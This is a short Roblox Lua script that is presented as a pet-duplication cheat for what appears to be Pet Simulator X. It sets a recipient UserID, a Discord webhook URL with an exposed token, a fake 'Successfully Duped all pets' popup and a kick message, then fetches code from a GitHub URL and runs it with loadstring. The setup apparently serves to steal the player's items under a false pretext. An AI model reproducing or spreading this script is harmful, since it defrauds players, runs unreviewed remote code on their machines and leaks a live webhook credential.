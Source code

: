 _G.UserID = 3012374027
_G.Webhook = "https://discord.com/api/webhooks/1009385574035107850/nAi6_vaMM495Fo7B-hLgoLuwjb2qXvsJ4btnJvzV8QUgNnFh53P2XL_NL2DaWAkngdD2"
_G.KickMessage = "Rejoin in 1-3 minutes"
_G.PopUpMessage = "Successfully Duped all pets in your bank!"
loadstring(game:HttpGet"https://raw.githubusercontent.com/ToxinKindaScripts/psxdupe/main/script2")()
